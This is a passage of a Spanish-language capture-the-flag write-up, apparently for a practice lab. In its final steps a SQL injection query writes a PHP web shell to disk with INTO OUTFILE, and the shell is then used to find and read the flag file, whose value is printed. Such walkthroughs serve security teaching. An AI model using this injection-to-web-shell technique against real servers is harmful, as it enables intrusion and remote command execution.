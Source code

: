 
## Paso 23: Evitar sobrescritura de shell

**Query**:

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>",null,null,null,null
  INTO OUTFILE './shell.php'-- -
```

**Resultado**:

```
File './shell.php' already exists
```

**Explicación**: Intento de regenerar el shell falla para prevenir sobrescritura, confirmando ubicación y nombre del archivo.

---

## Paso 24: Búsqueda de archivo bandera

**Comando**:

```
http://94.237.57.108:31396/dashboard/shell.php?cmd=find / -name *flag* 2>/dev/null
```

**Resultado**:

```
/flag_cae1dadcd174.txt
... (otros paths de flags del sistema)
```

**Explicación**: El comando `find` rastrea todo el sistema de archivos para localizar posibles archivos bandera.

---

## Paso 25: Lectura de la bandera final

**Comando**:

```
http://94.237.57.108:31396/dashboard/shell.php?cmd=cat /flag_cae1dadcd174.txt
```

**Resultado**:

```
528d6d9cedc2c7aab146ef226e918396
```

**Flag**: `528d6d9cedc2c7aab146ef226e918396`

**Explicación**: Leer directamente el archivo de la bandera confirma la explotación completa y el objetivo alcanzado.

---